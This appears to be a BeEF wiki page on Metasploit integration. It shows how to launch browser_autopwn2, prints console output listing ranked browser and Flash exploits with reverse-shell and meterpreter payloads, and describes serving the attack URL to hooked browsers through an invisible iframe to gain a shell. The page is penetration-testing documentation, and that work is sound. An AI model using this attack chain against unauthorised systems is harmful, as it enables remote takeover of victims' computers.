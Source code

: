 ## Introduction

Metasploit is another ruby based, open source security tool used for penetration testing. It has a collection of exploits, payloads, shellcodes and more in order to exploit vulnerabilities. 

BeEF supports Metasploit integration, and only requires some simple [[configuration|Configuration]] to get up and running. Once running Metasploit modules can be run directly through the BeEF interface.

#### Table of Contents

* [Metasploit Modules](#metasploit-modules)
* [Browser Autopwn](#browser-autopwn)

## Metasploit Modules

After launching Metasploit, you can find its modules in the BeEF command modules tree:
<p align=center>
[[Images/msf2.png|align=center]]
</p>

All regular payload CLI arguments have their own form fields in the module's interface:
<p align=center>
[[Images/msf3.png|align=center]]
</p>

After executing a module, sit back and wait for the exploit to work:
<p align=center>
[[Images/msf6.png|align=center]]
</p>

## Browser Autopwn

While not directly integrated in BeEF, you can easily use the Browser Autopwn function of Metasploit:

```
msf > use auxiliary/server/browser_autopwn2
msf auxiliary(browser_autopwn2) > show options

Module options (auxiliary/server/browser_autopwn2):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   EXCLUDE_PATTERN                   no        Pattern search to exclude specific modules
   INCLUDE_PATTERN                   no        Pattern search to include specific modules
   Retries          true             no        Allow the browser to retry the module
   SRVHOST          0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT          8080             yes       The local port to listen on.
   SSL              false            no        Negotiate SSL for incoming connections
   SSLCert                           no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                           no        The URI to use for this exploit (default is random)


Auxiliary action:

   Name       Description
   ----       -----------
   WebServer  Start a bunch of modules and direct clients to appropriate exploits

```

First, launch `browser_autopwn` or `browser_autopwn2` in Metasploit and get the BrowserAutoPwn URL, for example:

```
msf auxiliary(browser_autopwn2) > run -z 
[*] Auxiliary module execution completed

[*] Searching BES exploits, please wait...
msf auxiliary(browser_autopwn2) >
[*] Starting exploit modules...
[*] Starting listeners...
[*] Time spent: 6.01071043
[*] Using URL: http://0.0.0.0:8080/5WNrYZjr
[*] Local IP: http://10.1.1.175:8080/5WNrYZjr

[*] The following is a list of exploits that BrowserAutoPwn will consider using.
[*] Exploits with the highest ranking and newest will be tried first.

Exploits
========

 Order  Rank       Name                                       Payload
 -----  ----       ----                                       -------
 1      Excellent  webview_addjavascriptinterface             android/meterpreter/reverse_tcp on 4443
 2      Excellent  samsung_knox_smdm_url                      android/meterpreter/reverse_tcp on 4443
 3      Excellent  firefox_svg_plugin                         firefox/shell_reverse_tcp on 4442
 4      Excellent  firefox_webidl_injection                   firefox/shell_reverse_tcp on 4442
 5      Excellent  firefox_tostring_console_injection         firefox/shell_reverse_tcp on 4442
 6      Excellent  firefox_proto_crmfrequest                  firefox/shell_reverse_tcp on 4442
 7      Great      adobe_flash_net_connection_confusion       windows/meterpreter/reverse_tcp on 4444
 8      Great      adobe_flash_shader_drawing_fill            windows/meterpreter/reverse_tcp on 4444
 9      Great      adobe_flash_shader_job_overflow            windows/meterpreter/reverse_tcp on 4444
 10     Great      adobe_flash_hacking_team_uaf               windows/meterpreter/reverse_tcp on 4444
 11     Great      adobe_flash_uncompress_zlib_uaf            windows/meterpreter/reverse_tcp on 4444
 12     Great      adobe_flash_opaque_background_uaf          windows/meterpreter/reverse_tcp on 4444
 13     Great      adobe_flash_pixel_bender_bof               windows/meterpreter/reverse_tcp on 4444
 14     Great      adobe_flash_nellymoser_bof                 windows/meterpreter/reverse_tcp on 4444
 15     Great      adobe_flash_copy_pixels_to_byte_array      windows/meterpreter/reverse_tcp on 4444
 16     Great      adobe_flash_worker_byte_array_uaf          windows/meterpreter/reverse_tcp on 4444
 17     Great      adobe_flash_casi32_int_overflow            windows/meterpreter/reverse_tcp on 4444
 18     Great      adobe_flash_domain_memory_uaf              windows/meterpreter/reverse_tcp on 4444
 19     Good       adobe_flash_uncompress_zlib_uninitialized  windows/meterpreter/reverse_tcp on 4444
 20     Good       wellintech_kingscada_kxclientdownload      windows/meterpreter/reverse_tcp on 4444
 21     Good       ms14_064_ole_code_execution                windows/meterpreter/reverse_tcp on 4444

[+] Please use the following URL for the browser attack:
[+] BrowserAutoPwn URL: http://10.1.1.175:8080/5WNrYZjr
[*] Server started.
[*] Starting the payload handler...
```

Note the BrowserAutoPwn URL: `http://10.1.1.175:8080/5WNrYZjr`

Then use the [[Create Invisible Iframe|Module:-Create-Invisible-Iframe]] command module to load the autopwn webpage in an iFrame:
<p align=center>
[[Images/msf8.png|align=center]]
</p>

Then, just wait for a shell :
<p align=center>
[[Images/msf9.png|align=center]]
</p>

[[Previous|Network-discovery]] | [[Next|Tunneling]] 
